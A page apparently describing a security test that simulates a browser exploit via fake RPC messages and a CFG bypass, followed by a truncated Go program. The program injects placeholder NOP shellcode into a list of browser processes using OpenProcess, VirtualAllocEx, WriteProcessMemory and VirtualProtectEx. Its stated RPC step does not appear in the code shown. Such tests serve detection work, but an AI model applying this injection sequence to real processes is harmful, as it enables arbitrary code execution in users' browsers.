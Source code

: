 
## potential browser exploit via fake RPC messages

this is an attack where specially crafted RPC (Remote Procedure Call) messages are sent to exploit vulnerabilities in web browsers. this can be used to bypass CFG (Control Flow Guard) mitigations, which prevent execution of arbitrary code.

the test first launches several common web browsers and allocates memory in their address spaces. it then writes shellcode to this memory and attempts to execute it via manipulated RPC calls.

it simulates the CFG bypass by exploiting a vulnerability in RPC message handling, specifically `NdrServerCall2`, which has been used in irl exploits.

```go
func main() {
	Endpoint.Say("[+] Starting Potential Browser Exploit via Fake RPC Messages [+]")
	Endpoint.Start(test, cleanup)
}

func test() {
	browserProcesses := []string{"chrome.exe", "msedge.exe", "iexplore.exe", "brave.exe", "whale.exe", "browser.exe", "dragon.exe", "vivaldi.exe", "opera.exe", "seamonkey.exe", "safari.exe", "waterfox.exe"}
	for _, processName := range browserProcesses {
		cmd := exec.Command(processName)
		err := cmd.Start()
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] Failed to start process %s: %s", processName, err))
			continue
		}
		defer cmd.Process.Kill()

		// memory manipulation with VirtualProtect + WriteProcessMemory
		procHandle, err := windows.OpenProcess(windows.PROCESS_ALL_ACCESS, false, uint32(cmd.Process.Pid))
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] Failed to get process handle: %s", err))
			Endpoint.Stop(1) // ERROR
		}

		// allocate memory in target process
		addr, err := windows.VirtualAllocEx(procHandle, 0, 4096, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] Failed to allocate memory: %s", err))
			Endpoint.Stop(1) // ERROR
		}

		// write shellcode to allocated memory
		shellcode := []byte{0x90, 0x90, 0x90, 0x90} // NOP sled as a placeholder
		var written uint32
		err = windows.WriteProcessMemory(procHandle, addr, &shellcode[0], uint32(len(shellcode)), &written)
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] Failed to write memory: %s", err))
			Endpoint.Stop(1) // ERROR
		}

		// change memory protection to EXECUTABLE
		oldProtect := windows.PAGE_READWRITE
		err = windows.VirtualProtectEx(procHandle, addr, 4096, windows.PAGE_EXECUTE_READ, &oldProtect)
		if err != nil {
			Endpoint.Say(fmt.Sprintf("[-] Failed to change memory protection: %s", err))
			Endpoint.Stop(1) // ERROR
```